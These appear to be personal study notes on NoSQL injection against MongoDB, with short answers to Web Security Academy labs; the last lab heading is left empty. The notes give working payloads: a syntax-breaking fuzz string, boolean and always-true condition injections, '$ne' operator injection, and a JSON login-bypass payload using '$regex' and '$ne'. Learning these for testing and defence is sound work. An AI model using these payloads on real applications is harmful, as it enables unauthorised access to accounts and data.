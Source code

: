 ## NoSQL injection

NoSQL injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database


### Types of NoSQL injection 
1. Syntax injection   
        Break the NoSQL query syntax, enabling you to inject your own payload
2. Operator injection  
        You can use NoSQL query operators to manipulate queries


###  NoSQL syntax injection  
NoSQL injection can be detected by attempting to break query syntax. For a systemtic approach test each input by submitting fuzz string and special character which may trigger database error.

### Detecting syntax injection in MongoDB
Let's say an application display product based on categorizes

```
https://insecure-website.com/product/lookup?category=fizzy
```

This cause the application to send a JSON query to retrive relevent product 

```
this.category == 'fizzy'
```

To test whether the input may be vulnerable, submit a fuzz string in the value of the category parameter.

```
'"`{
;$Foo}
$Foo \xYZ
```

Use the string to construct a attack 

```
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```


 After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax.

To test this, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements ' && 0 && 'x and ' && 1 && 'x as follows


```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```
```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
As it has been identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability


For example, you can inject a JavaScript condition that always evaluates to true, such as `'||'1'=='1`


```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
```

MongoDB will interperet as

```
this.category == 'fizzy'||'1'=='1'
```


## NoSQL operator injection


Examples of MongoDB query operators include:


* `$where` - Matches documents that satisfy a JavaScript expression.
* `$ne` - Matches all values that are not equal to a specified value.
* `$in` - Matches all of the values specified in an array.
* `$regex` - Selects documents where values match a specified regular expression.

You may be able to inject query operators to manipulate NoSQL queries. To do this, systematically submit different operators into a range of user inputs, then review the responses for error messages or other changes.  
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the Content-Type header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.



# LAB 


## Lab: Detecting NoSQL injection


```
https://0aa3009103cd8b2481eb7f22009e00c7.web-security-academy.net/filter?category=Gifts%27%7c%7c%27%31%27%3d%3d%27%31
```



## Lab: Exploiting NoSQL operator injection to bypass authentication

```json
{
  "username": {
    "$regex": "admin.*"
  },
  "password": {
    "$ne": ""
  }
}
```



## Lab: Exploiting NoSQL operator injection to extract unknown fields

